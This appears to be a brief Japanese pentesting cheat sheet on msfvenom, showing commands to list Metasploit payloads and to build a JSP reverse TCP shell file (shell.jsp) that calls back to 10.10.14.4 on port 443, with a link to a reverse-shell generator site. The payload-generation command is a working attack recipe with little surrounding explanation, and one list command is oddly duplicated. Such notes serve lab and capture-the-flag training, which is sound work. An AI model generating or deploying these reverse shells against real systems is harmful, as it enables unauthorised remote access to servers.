 # # MFSVENOM
## ## Payloadを探す
```zsh
msfvenom --list payload # いろいろなペイロードが表示される。
msfvenom --list payload # こんな感じで使用できる。
```

## ## 作成する
```zsh
msfvenom --payload java/jsp_shell_reverse_tcp --format raw --out shell.jsp LHOST=10.10.14.4 LPORT=443
```

# # Web Tool
- https://www.revshells.com/